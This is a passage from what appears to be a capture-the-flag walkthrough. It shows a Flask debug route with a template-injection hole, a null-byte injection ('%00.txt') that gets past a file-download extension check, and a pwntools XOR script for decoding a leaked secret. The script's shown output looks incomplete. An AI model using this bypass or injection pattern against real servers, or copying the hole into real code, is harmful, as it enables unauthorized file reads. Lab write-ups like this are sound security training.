 ```
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)

```

```
$ curl http://<target ip>:7777/cloud -X POST -d 'download=supersecrettip.txt'
b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
```

This `supersecrettip.txt` file contained a sequence of bytes that required decryption. In the debug function, comments highlighted the uppercase letters “X”, “O”, and “R”, strongly suggesting that the data had been encrypted using XOR. 

Direct download of debugpassword file, however, was not possible due to the application’s download() function. This function explicitly restricted downloads to either source.py or files with a .txt extension. Consequently, the debugpassword file could not be retrieved directly.

To overcome this limitation, a **null-byte injection** takes advantage of how certain frameworks handle string termination. A null byte (%00 in URL encoding or \x00 in raw form) can prematurely terminate a string, effectively truncating the value at the injection point.  appending a null byte before the forbidden extension may bypass the validation check while still allowing the server’s file-handling function to process the real filename.

```
$ curl http://<target ip>:7777/cloud -X POST -d 'download=debugpassword.py%00.txt'
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')

```
Next, let's write a qwuick script to decode given key with this function.

```
$ cat decode.py 
#!/bin/python3
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')

input = b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
utf8text = input.decode('utf-8', errors='replace')
print(utf8text)
print(get_encrypted(utf8text)) 
$ python3 ./decode.py 
\x03\x18\x06\x1e
```